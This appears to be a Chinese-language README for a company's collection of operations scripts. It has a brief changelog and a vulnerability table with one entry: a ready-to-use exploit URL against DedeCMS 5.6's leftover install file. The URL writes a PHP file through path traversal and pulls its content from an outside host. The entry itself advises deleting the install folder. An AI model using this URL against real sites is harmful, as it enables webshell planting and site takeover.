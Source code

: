 # **仁裕元科技出品- 一些项目中用到的脚本** #
* 20181103修改blacklist-docker.py 忽略IP处理
* 20181123修改dede_check.py  dede权限空制 结合crontab做定时处理
----
#### 1 常用系统漏洞
| 软件名称 | 实例  | 说明 | 备注 |
| :------------ | :------------ | :------------ | :------------ |
| dedecms5.6 | `http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/`  | 安装dedecms 后会  生成install/index.php.bak这个文件.| 建议删除install文件夹 |
